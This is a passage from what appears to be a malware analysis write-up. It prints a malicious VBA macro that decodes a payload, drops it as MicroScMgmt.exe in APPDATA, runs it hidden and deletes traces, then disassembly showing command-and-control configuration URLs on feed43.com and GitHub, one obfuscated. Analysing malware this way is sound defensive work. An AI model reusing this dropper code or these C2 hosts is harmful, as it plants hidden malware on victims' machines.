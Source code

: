 ```vb
    Payload = Payload & mi3
    Payload = Payload & mi4
    Set ScObject = ScriptingObj.createTextFile(Path_Payload, True)
    ScObject.Write Decode(Payload)
    ScObject.Close
    'Set ScObject = ScriptingObj.createTextFile(Path_Unused, True)
    'ScObject.Write Decode(UnusedPayload)
    'ScObject.Close
    'Set ScObject = ScriptingObj.createTextFile(Path_Base, True)
    'ScObject.Write Decode(BasePayload)
    'ScObject.Close
    Appdata_Folder = wshell("APPDATA")
    Appdata_Folder = Appdata_Folder & "\Microsoft"
    Path_APP = Appdata_Folder & "\MicroScMgmt.exe"
    'Path_SideDLL = Appdata_Folder & "\jli.dll"
    'Path_legit = Appdata_Folder & "\msvcr71.dll"
    If Not ScriptingObj.FileExists(Path_APP) Then
        WriteFile MultiByteToBinary(ReadStream(Path_Payload)), Path_APP
    End If
    'If Not ScriptingObj.FileExists(Path_SideDLL) Then
        'WriteFile MultiByteToBinary(ReadStream(Path_Unused)), Path_SideDLL
    'End If
    'If Not ScriptingObj.FileExists(Path_legit) Then
        'WriteFile MultiByteToBinary(ReadStream(Path_Base)), Path_legit
    'End If
    If ScriptingObj.FileExists(Path_Payload) Then
        ScriptingObj.DeleteFile Path_Payload
    End If
    'If ScriptingObj.FileExists(Path_Unused) Then
        'ScriptingObj.DeleteFile Path_Unused
    'End If
    'If ScriptingObj.FileExists(Path_Base) Then
        'ScriptingObj.DeleteFile Path_Base
    'End If
    Set ShObj = CreateObject("WScript.shell")
    ShObj.Run Path_APP, 0, False
    Set ShObj = Nothing
    sampledel
End Function
```

<h4>Once check the connectivity with wikipedia domain for ensure to be communicating to the C2, this loads serval mirrors sites for getting the configuration and have the C2 to contact.</h4>

```asm
0x10005203 mov dword [var_8h], eax
0x1000520a mov eax, dword [arg_8h]
0x1000520d push esi
0x1000520e mov esi, dword [sym.imp.KERNEL32.dll_lstrcpyA] ; 0x1001b0a8 ; "*%\x02"
0x10005214 mov dword [var_5b4h], eax
0x10005218 mov eax, dword [arg_ch]
0x1000521b push edi
0x1000521c mov dword [var_5c0h], eax
0x10005220 lea eax, [var_3cch]
0x10005227 push 0x10020964    ; http://feed43.com/6021628058817160.xml
0x1000522c push eax
0x1000522d mov dword [var_5ach], edx
0x10005231 mov dword [var_5c4h], ecx
0x10005235 mov dword [var_5a4h], 0
0x1000523d call esi
0x1000523f push str.iuuqt_00sbx_hjuivcvtfsdpoufou_dpn0qfuspw2bmfy_foefs0sfbenf0nbtufs0ynm_ynm ; 0x100209c0 ; "iuuqt;00sbx/hjuivcvtfsdpoufou/dpn0qfuspw2bmfy{foefs0sfbenf0nbtufs0ynm/ynm"
0x10005244 lea eax, [var_384h] ; https://raw.githubusercontent.com/petrov1alexzender/readme/master/xml.xml
```